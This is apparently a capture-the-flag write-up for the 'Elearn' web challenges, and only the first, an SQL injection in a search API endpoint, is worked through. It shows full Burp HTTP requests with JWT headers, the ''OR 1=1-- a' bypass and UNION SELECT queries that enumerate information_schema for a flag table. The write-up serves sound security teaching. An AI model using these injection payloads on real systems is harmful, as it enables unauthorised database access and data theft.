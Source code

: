 # Elearn (4 challenges)

### Summary
1. SQLi on API endpoint -> Flag
2. Broken Access Control via Improper Verification of JWT -> Flag
3. Admin Privileges -> PUT Access to API Endpoint -> Flag
4. ???

# Elearn (1/4) - SQLi?
This is SQLi - but not the workshop SQLi. You see, there are many different types of SQL databases out there, each comes with their own syntax.

This is a React App. Hence, we should use Burp even more to enumerate all those pesky endpoints which are hidden away from us. :3

SQLi often occurs in search functionality, we can try performing a search query.

``````
GET /api/modules/search/test123 HTTP/1.1
Host: chals.whitehacks.ctf.sg:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://chals.whitehacks.ctf.sg:5000/home
Authorization: JWT eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE1OTYzODEyNjMsImlhdCI6MTU5NjM4MDk2MywibmJmIjoxNTk2MzgwOTYzLCJpZGVudGl0eSI6MX0._8CFBnURoNC0x2mXJnGD5RllGn8oPsJ25oc-S4k3lFM
Connection: close
Cookie: __cfduid=db55fdf3f4b3c7b3f017d3dc71893b0ab1596329705
``````
We notice that our query is appended to the URL. We can try modifying the request in Burp by appending a '
``````
GET /api/modules/search/test123' HTTP/1.1
Host: chals.whitehacks.ctf.sg:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://chals.whitehacks.ctf.sg:5000/home
Authorization: JWT eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE1OTYzODEyNjMsImlhdCI6MTU5NjM4MDk2MywibmJmIjoxNTk2MzgwOTYzLCJpZGVudGl0eSI6MX0._8CFBnURoNC0x2mXJnGD5RllGn8oPsJ25oc-S4k3lFM
Connection: close
Cookie: __cfduid=db55fdf3f4b3c7b3f017d3dc71893b0ab1596329705
``````
We get our '500 INTERNAL SERVER ERROR' which means that this endpoint is probably SQLi vulnerable!

There is a caveat to this however, you may notice that the standard 'OR 1=1-- will still give a '500 INTERNAL SERVER ERROR'. However, its because there's a caveat to this. The syntax for comments in MySQL databases
``````
-- comment goes here
`````` 
Yep that's right! You need a space and a character after the payload. So you will have to append 'OR 1=1-- a instead! I strongly recommend for the escaping character in SQLi payloads to be '-- a' as it fits all the different types of SQL databases you will encounter!
``````
GET /api/modules/search/e 'OR 1=1-- a HTTP/1.1
Host: chals.whitehacks.ctf.sg:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://chals.whitehacks.ctf.sg:5000/home
Authorization: JWT eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE1OTYzODIwNjQsImlhdCI6MTU5NjM4MTc2NCwibmJmIjoxNTk2MzgxNzY0LCJpZGVudGl0eSI6MX0.osPzLbz-apKmy2t77ps7hRatSPK4PZTow7eSf4EWbvw
Connection: close
Cookie: __cfduid=db55fdf3f4b3c7b3f017d3dc71893b0ab1596329705
``````
The rest is just simple SQLi database enumeration from there as seen from the workshop!
``````
GET /api/modules/search/e 'UNION SELECT NULL,table_name from information_schema.tables-- a 
GET /api/modules/search/e 'UNION SELECT NULL,column_name from information_schema.columns WHERE table_name='flag'-- a 
``````
